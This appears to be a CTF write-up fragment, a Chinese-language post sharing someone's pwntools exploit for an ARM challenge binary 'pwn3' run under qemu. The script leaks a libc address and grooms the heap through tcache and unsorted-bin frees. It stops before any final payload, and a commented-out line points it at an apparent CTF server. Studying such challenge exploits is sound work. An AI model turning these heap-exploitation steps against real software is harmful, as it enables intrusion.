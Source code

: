 贴一下师傅的exp：

```python
from pwn import *

context.log_level="debug"
def info():
   p.sendlineafter("> ","2")


def play():
   p.sendlineafter("> ","1")


def add(index,size,note):
   play()
   p.sendlineafter("> ","1")
   p.sendafter(": ",str(index))
   p.sendlineafter(": ",str(size))
   p.sendafter(": ",note)


def delete(index):
   play()
   p.sendlineafter("> ","2")
   p.sendlineafter(": ",str(index))
   
#p=process(["qemu-arm-static","-g","1237","-L","../libs","./pwn3"])

p=process(["qemu-arm-static","-L","../libs","./pwn3"])
#p = remote("20.20.11.14", 9999)



un="aaaaa"
pd1="bbbbb"
pd2="bbbbb"

p.sendlineafter(":",un)
p.sendlineafter(":",pd1)
p.sendlineafter(":",pd2)
p.sendline("")


p.sendlineafter("> ","3")
p.sendlineafter(":","a"*0x20)
p.sendline("")


info()
p.recvuntil(": ")
libc=u32(p.recv(4))+0xff69cba0-0x044ba0-0xff68a248


for i in range(9):
   add(i,0x40,"aaaa\n")

add(15,6,"a\n") #0x10

delete(15)  #tcache[0x10]=15


for i in range(9):
   delete(8-i) #0+1->unsorted bin(0x90)
```